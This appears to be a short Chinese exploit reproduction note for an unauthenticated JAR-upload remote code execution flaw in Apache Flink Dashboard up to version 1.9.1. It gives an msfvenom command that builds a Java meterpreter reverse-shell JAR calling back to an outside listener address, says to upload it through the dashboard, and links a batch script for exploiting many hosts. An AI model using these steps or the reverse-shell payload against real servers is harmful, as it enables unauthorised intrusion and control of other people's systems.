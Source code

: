 ```yaml
---
title: "Apache Flink Dashboard 未授权访问-远程代码命令执行"
id: zhfly2813
---
```


# Apache Flink Dashboard 未授权访问-远程代码命令执行

## 一、漏洞简介

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

## 二、漏洞影响

<= 1.9.1(最新版本)

## 三、复现过程

### 1、

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar 
```

![image](../img/819fb8cc6c325c0beb7e9ee6be23bb9c.png)

### 2、

上传alewong Jar包

![image](../img/d755c4914d0d6ecd38db218692beb964.png)

![image](../img/ea33663f1b99c5b71fd3ee2edc465369.png)

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

```
Ps:
当注释掉 if 'Unable to load requested file' in str(data):
之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权 
```